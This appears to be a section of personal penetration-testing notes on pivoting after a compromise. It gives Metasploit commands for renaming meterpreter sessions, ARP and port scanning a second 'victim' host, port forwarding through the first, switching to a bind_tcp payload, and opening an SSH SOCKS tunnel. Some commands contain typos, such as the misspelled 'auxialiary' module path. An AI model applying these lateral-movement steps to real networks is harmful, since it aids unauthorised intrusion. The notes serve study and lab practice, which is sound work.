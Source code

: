 We can rename the meterpreter sessions.&#x20;

```bash
sessions -n victim-1 -i SESSION
```

To discover ohters host in the pivoting network, we can use a arpscanner module of metasploit.

```bash
# meterpreter
use post/windows/gather/arp_scanner
set RHOSTS IP/MASK
set SESSIONS 
run
```

Use a portscan module to make a scan in the Victim2 (msfconsole)

```bash
use auxialiary/scanner/portscan/tcp
set RHOSTS VICTIM2_IP
run
```

## Portforwarding with Metasploit

When in the victim2 there is a service for exemple HTTP/S (port 80), to access via browser in the our kali machine we have to create a portforwarding. In the Victim1 meterpreter session run this commands:

```bash
portfwd add -l LOCAL_PORTFORWARDING -p VICTIM2_PORT_SERVICE -r VICTIM2_IP
# -l: local port that we want open to host the victim2 service
# -p: victim2 port with the service that we want view
# -r: victim2 IP
```

Now we can scan with db\_nmap the local port.

```bash
db_nmap -sS -sV -p LOCAL_PORTFORWARDING localhost
```

If the expoit dont run for the Victim2 try to change the payload with **bind\_tcp,** and set victim2 IP on the exploit, not "localhost".

***



## SSH Tunneling Pivoting

Once we have access to a machine with SSH credential we can create a tunnel to connect our machine to other networks.

Establish the tunnel on a local port

```bash
sudo apt install proxychains

ssh -D $LOCAL_PORT $USER@$VICTIM1_IP
# ex ssh -D 8090 mario@192.168.3.2
```
